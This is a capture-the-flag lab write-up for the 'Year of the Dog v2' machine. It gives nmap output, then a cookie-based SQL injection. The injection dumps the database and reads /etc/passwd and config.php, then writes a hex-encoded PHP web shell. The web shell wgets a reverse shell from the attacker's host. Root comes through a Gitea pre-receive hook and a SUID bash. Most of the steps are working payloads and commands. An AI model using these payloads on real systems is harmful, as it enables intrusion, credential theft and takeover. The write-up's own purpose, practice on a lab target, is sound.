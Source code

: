# Year of the Dog v2

## NMAP

```
Nmap scan report for 10.10.248.244
Host is up (0.16s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:c9:dd:9b:db:95:9e:fd:19:a9:a6:0d:4c:43:9f:fa (RSA)
|   256 c3:fc:10:d8:78:47:7e:fb:89:cf:81:8b:6e:f1:0a:fd (ECDSA)
|_  256 27:68:ff:ef:c0:68:e2:49:75:59:34:f2:bd:f0:c9:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Canis Queue
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/14%OT=22%CT=1%CU=42193%PV=Y%DS=5%DC=T%G=Y%TM=6117EEC
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   38.51 ms  10.17.0.1
2   ... 4
5   161.79 ms 10.10.248.244

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 502.75 seconds
```


## Getting Reverse shell

1. While visiting the website I didn't find anything interesting.
2. Tried feroxbuster but didn't find anything interestig.
3. Only thing interesting was config.php found by nkito but it was hidden.
4. The next thing interseting was cookie `id` just like suspected there is sql injection vulnerability.
`Cookie: id=' union select 1,2 -- -` and there was no error.
5. Enumerating databases: `Cookie: id='union select 1,group_concat('\n',schema_name)from information_schema.schemata-- -` and returned webapp.
6. Enumerating tables: `Cookie: id='union select 1,group_concat('\n',table_name)from information_schema.tables where table_schema='webapp'-- -`
7. Enumerating columns from table queue: `Cookie: id='union select 1,group_concat('\n',userID,':',queueNum) from webapp.queue-- -`
8. Most of the time LOAD_FILE and INTO OUTFILE will be disabled in this case it was not.
9. We could see file using LOAD_FILE `Cookie: id='union select 1,LOAD_FILE('/etc/passwd') from webapp.queue-- -`
And we are able to see config.php with `Cookie: id='union select 1,LOAD_FILE('/var/www/html/config.php') from webapp.queue-- -` and it has database admin username and password.
10. We can also write: `Cookie: id='union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/test.php' from webapp.queue-- -` and we can check whether the file is written by `curl http://10.10.243.0/test.php` and the file is there.
11. Lets try to to RCE. `Cookie: id='union select 1,'<?php system($_GET['cmd']) ?> INTO OUTFILE '/var/www/html/shell.php' from webapp.queue-- -` but it throws error: "RCE Attempt detected".
12. Lets try to convert to hex and upload. `Cookie: id='union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell.php' from webapp.queue-- -` and it worked.
13. Go to http://10.10.243.0/shell.php?cmd=id on the browser and you can verify it works.
14. To upload php_rshell we can just user wget, `http://10.10.243.0/shell.php?cmd=wget http://[our_ip]/php_rshell.php` and run the shell from browser and capture the using netcat.
15. We have reverse shell.

## Escalate to user dylan.
1. When inspecting folder /home/dylan we find a file work_analysis.
2. We can find username and password of dylan in plain text. `cat work_anaylys | grep -Ri "dylan" 2>/dev/null`.
3. We can login as dylan and even ssh.

## Escalate to root user.

1. There are ports open port listening `ss -ltn`. Whn tested one of them `curl 127.0.0.1:3000` its giving back a web page.
2. Lets open it our browser using ssh port forwarding. `ssh -N -L 3000:127.0.0.1:3000 dylan@10.10.60.146` 
3. Open http://127.0.0.1:3000 and we found it is using gitea.
4. Tried to login as dylan but there is two factor authentication.
5. The "Gitea Version: 1.13.0+dev-542-gbc11caff9" had RCE vulnerability. If username and password is there we can edit hook "pre-recieve" to execute commands while each push command.
6. We have Gitea folder and user dylan has full permission.
7. Create a user in Gitea through browser and create repository.
8. Go to the `/gitea/git/repositories/test/test.git/hooks` and edit `pre-receive` file and add reverse shell commands and start nc listener on kali.
9. Create a file and when pushing we got a reverse shell.
10. While checking we have full access `sudo -l`
11. Exit out of the shell and copy `/bin/bash` to `/gitea/git/repositories/test2/test2.git`.
12. Again push any file to git to get reverse shell.
13. Right now we are able see bash file there.
14. Escalate privilege by `sudo ./bash`.
15. `chown root:root bash`
16. `chmod u+s bash` to set suid bit.
17. Exit out of the shell.
18. `./bash -p` and we are root.

***
